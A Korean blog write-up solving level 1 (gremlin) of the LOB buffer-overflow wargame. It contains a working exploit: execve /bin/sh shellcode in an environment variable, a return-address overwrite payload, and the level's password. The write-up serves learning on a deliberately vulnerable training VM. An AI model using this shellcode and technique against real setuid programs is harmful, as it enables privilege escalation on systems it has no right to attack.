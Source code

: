 ```yaml
---
title: LOB 1번 Write-up
date: 2017-8-20 18:05:00
categories: LOB
tags: LOB
---
```


처음부터 LOB를 풀자니 조금 어려워서, 비슷한 오버플로우 문제인 FTZ 9번과 11번 문제의 write-up을 참고해 문제를 풀었습니다.

## LOB 1번

LOB를 설치한 VM의 주소로 접속하면 이러한 화면이 나옵니다.


    _______________________
      _______________________-------------------                       `\
     /:--__                                                              |
    ||< > |                                   ___________________________/
    | \__/_________________-------------------                         |
    |                                                                  |
     |        The Lord of the BOF : The Fellowship of the BOF, 2010    |
     |                                                                  |
     |                                                                  |
      |       [enter to the dungeon]                                    |
      |       gate : gate                                                |
      |                                                                  |
      |       [RULE]                                                     |
       |      - do not use local root exploit                             |
       |      - do not use LD_PRELOAD to my-pass                          |
       |      - do not use single boot                    [h4ck3rsch001] |
      |                                              ____________________|_
      |  ___________________-------------------------                      `\
      |/`--_                                                                 |
      ||[ ]||                                            ___________________/
       \===/___________________--------------------------
    
    login:

LOB에서는 my-pass 명령을 쳤을 때 다음 레벨의 비밀번호인 플래그가 출력되는데, 아직은 gate권한을 가지고 있으므로 이렇게 플래그 출력을 거부합니다.

    [gate@localhost gate]$ id
    uid=500(gate) gid=500(gate) groups=500(gate)
    [gate@localhost gate]$ my-pass
    euid = 500
    I dunno
현재 디렉토리에는 파일이 3개가 있습니다.

    [gate@localhost gate]$ ls -l
    total 16
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

bash2를 띄운 후 gremlin의 소스를 확인하면 이렇게 생겼습니다.

    [gate@localhost gate]$ bash2
    [gate@localhost gate]$ cat gremlin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - gremlin
            - simple BOF
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

간단한 BOF라네요.
argc인자로 값을 받아오는 구조이고, 256바이트의 버퍼에 저장합니다.
오버플로우가 생길거라고 말해줍니다.

gdb를 사용하기 위해서는 현재 소유주인 파일만 분석이 가능하므로 gremlin 파일을 복사해 주었습니다.

    [gate@localhost gate]$ cp gremlin gremlin1
    [gate@localhost gate]$ ls -l
    total 28
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
    -rwsr-sr-x    1 gate     gate        11987 Aug 20 12:45 gremlin1

메모리에는 256바이트의 버퍼값과 4바이트의 버퍼 주소값이 저장되기 때문에 이처럼 파이썬 코드를 이용해 260바이트의 값을 넣어주면 Segmentation Fault가 출력됨을 알 수 있습니다.
Segmentation fault에러는 할당된 메모리를 넘어서서 잘못된 부분까지 건드릴 때 나오는 에러입니다. 오버플로우의 확인 메시지로 보면 됩니다.

    [gate@localhost gate]$ ./gremlin1 `python -c 'print "a"*260'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault (core dumped)

[uid 참고 자료](http://sosal.kr/122)

### 쉘코드 작성
gremlin 파일에는 setuid가 걸려있으므로 buffer를 넘어서서 sfp 값을 덮어쓰고, ret값을 수정하면 root권한의 쉘을 실행시킬 수 있겠습니다. gdb에서 gremlin의 main함수를 뜯어보면 `main+3` 에서 0x100, 즉 256바이트만큼 ESP의 값을 낮춤으로써 버퍼를 확보하는것이 보입니다.

    (gdb) disass main
    Dump of assembler code for function main:
    0x8048430 <main>:       push   %ebp
    0x8048431 <main+1>:     mov    %esp,%ebp
    0x8048433 <main+3>:     sub    $0x100,%esp
    0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
    0x804843d <main+13>:    jg     0x8048456 <main+38>
    0x804843f <main+15>:    push   $0x80484e0
    0x8048444 <main+20>:    call   0x8048350 <printf>
    0x8048449 <main+25>:    add    $0x4,%esp
    0x804844c <main+28>:    push   $0x0
    0x804844e <main+30>:    call   0x8048360 <exit>
    0x8048453 <main+35>:    add    $0x4,%esp
    0x8048456 <main+38>:    mov    0xc(%ebp),%eax
    0x8048459 <main+41>:    add    $0x4,%eax
    0x804845c <main+44>:    mov    (%eax),%edx
    0x804845e <main+46>:    push   %edx
    0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
    0x8048465 <main+53>:    push   %eax
    0x8048466 <main+54>:    call   0x8048370 <strcpy>
    0x804846b <main+59>:    add    $0x8,%esp
    0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
    0x8048474 <main+68>:    push   %eax
    0x8048475 <main+69>:    push   $0x80484ec

추가적인 더미 메모리 구조는 보이지 않으므로 메모리 구조는 이렇게 됩니다.

buffer(256byte)  |  sfp(4byte) | ret(4byte)

따라서 쉘코드는 아래처럼 만들면 되겠습니다.

(buffer를 채울 nop값 256바이트) | (SFP채울 더미 값 4byte) | (쉘코드의 주소값 4byte)

리눅스의 export명령어를 활용해 shell이라는 환경변수를 등록하였습니다.

    [gate@localhost gate]$ export shell=`python -c 'print "\x90" * 100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

이제 이 shell이라는 환경변수의 주소값을 찾아서 ret값에 넣어주기만 하면 되겠습니다.

    [gate@localhost gate]$ mkdir temp
    [gate@localhost gate]$ cd temp
    [gate@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    }

    [gate@localhost temp]$ gcc -o addr addr.c
    [gate@localhost temp]$ ls
	addr  addr.c
	[gate@localhost temp]$ ./addr
	0xbffffd90

따라서 shellcode의 주소는 0xbffffd90입니다.

    [gate@localhost gate]$ ./gremlin `python -c 'print "\x90" * 260 + "\x90\xfd\xff\xbf"'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA멅?
    bash$ id
    uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
    bash$ my-pass
    euid = 501
    hello bof world

따라서 2번 문제인 cobolt의 비밀번호는 `hello bof world`로 나왔습니다.
